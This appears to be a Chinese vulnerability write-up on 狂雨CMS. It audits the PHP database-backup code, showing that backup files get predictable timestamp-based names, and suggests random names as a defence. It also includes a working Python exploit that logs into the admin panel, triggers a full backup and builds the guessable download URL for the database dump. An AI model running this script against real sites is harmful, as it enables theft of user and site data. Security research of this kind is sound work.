 # 狂雨CMS数据库备份地址爆破

## 审计

`application/admin/controller/Database.php->export()`

```php
public function export($tables = null, $id = null, $start = null){
        if($this->request->isPost() && !empty($tables) && is_array($tables)){ //初始化
            ......

            //生成备份文件信息
            $file = [
                'name' => date('Ymd-His', time()),
                'part' => 1,
            ];

            ......

            //创建备份文件
            $Database = new Databasec($file, $config);
            if(false !== $Database->create()){
                $tab = ['id' => 0, 'start' => 0];
                $this->success('初始化成功！', '', ['tables' => $tables, 'tab' => $tab]);
            } else {
                $this->error('初始化失败，备份文件创建失败！');
            }

            ......

        } elseif ($this->request->isGet() && is_numeric($id) && is_numeric($start)) { //备份数据

            ......

        } else {
            $this->error('请指定要备份的表！');
        }
    }
```

跟进`Databasec`类

`extend/databasec/Databasec.php->create()`

```php
public function __construct($file, $config, $type = 'export'){
        $this->file   = $file;
        $this->config = $config;
    }
```

```php
public function create(){
        $sql  = "-- -----------------------------\n";
        $sql .= "-- Think MySQL Data Transfer \n";
        $sql .= "-- \n";
        $sql .= "-- Host     : " . config('database.hostname') . "\n";
        $sql .= "-- Port     : " . config('database.hostport') . "\n";
        $sql .= "-- Database : " . config('database.database') . "\n";
        $sql .= "-- \n";
        $sql .= "-- Part : #{$this->file['part']}\n";
        $sql .= "-- Date : " . date("Y-m-d H:i:s") . "\n";
        $sql .= "-- -----------------------------\n\n";
        $sql .= "SET FOREIGN_KEY_CHECKS = 0;\n\n";
        return $this->write($sql);
    }
```

继续跟进`write`函数

`extend/databasec/Databasec.php->write()`

```php
private function write($sql){
        $size = strlen($sql);

        //由于压缩原因，无法计算出压缩后的长度，这里假设压缩率为50%，
        //一般情况压缩率都会高于50%；
        $size = $this->config['compress'] ? $size / 2 : $size;

        $this->open($size);

        return $this->config['compress'] ? @gzwrite($this->fp, $sql) : @fwrite($this->fp, $sql);
    }
```

跟进`open`函数

`extend/databasec/Databasec.php->open()`

```php
private function open($size){
        if($this->fp){
            $this->size += $size;
            if($this->size > $this->config['part']){
                $this->config['compress'] ? @gzclose($this->fp) : @fclose($this->fp);
                $this->fp = null;
                $this->file['part']++;
                session('backup_file', $this->file);
                $this->create();
            }
        } else {
            $backuppath = $this->config['path'];
            $filename   = "{$backuppath}{$this->file['name']}-{$this->file['part']}.sql";
            if($this->config['compress']){
                $filename = "{$filename}.gz";
                $this->fp = @gzopen($filename, "a{$this->config['level']}");
            } else {
                $this->fp = @fopen($filename, 'a');
            }
            $this->size = filesize($filename) + $size;
        }
    }
```

可以看到文件名由`file['name']`+`-`+`file['part']`+`.sql(.gz)`组成，`name`是格式化后的time，`part`为1，因此可直接爆破文件名，从而泄露数据库

### 防御方法

利用随机数生成文件名，然后发送邮件至管理员邮箱或发送短信至手机，增加爆破难度

## 漏洞复现

后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp(因为不会进行验证码的识别，所以修改了代码将验证部分注释掉了，师傅们见谅~)

Python爆破脚本

```python
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory
import requests
import time

def getDatabase(url,username, password):
    session = requests.session()

    u = 'http://%s/admin/index/login.html' % (url)
    head = {
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
        'username': username,
        'password': password,
        'code': 1
    }
    session.post(u, data, headers = head)

    u = 'http://%s/admin/database/export.html' % (url)
    data = {
        'layTableCheckbox':'on',
        'tables[0]':'ky_ad',
        'tables[1]':'ky_addons',
        'tables[2]':'ky_bookshelf',
        'tables[3]':'ky_category',
        'tables[4]':'ky_collect',
        'tables[5]':'ky_comment',
        'tables[6]':'ky_config',
        'tables[7]':'ky_crontab',
        'tables[8]':'ky_link',
        'tables[9]':'ky_member',
        'tables[10]':'ky_menu',
        'tables[11]':'ky_news',
        'tables[12]':'ky_novel',
        'tables[13]':'ky_novel_chapter',
        'tables[14]':'ky_route',
        'tables[15]':'ky_slider',
        'tables[16]':'ky_template',
        'tables[17]':'ky_user',
        'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())

    session.post(u, data = data)

    for i in range(0, 19):
        u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
        session.get(u2)

    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t

if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)
```

运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)

![2Z9dpibMEs1PUcB](./resource/狂雨CMS数据库备份地址爆破/media/2Z9dpibMEs1PUcB.png)

直接访问下载

![kxcNeHhSqviyfpR](./resource/狂雨CMS数据库备份地址爆破/media/kxcNeHhSqviyfpR.png)

可以看到所有数据库信息全在了

![p2VETuFUze3lDZS](./resource/狂雨CMS数据库备份地址爆破/media/p2VETuFUze3lDZS.png)

## 参考

https://www.cnblogs.com/0daybug/p/12624364.html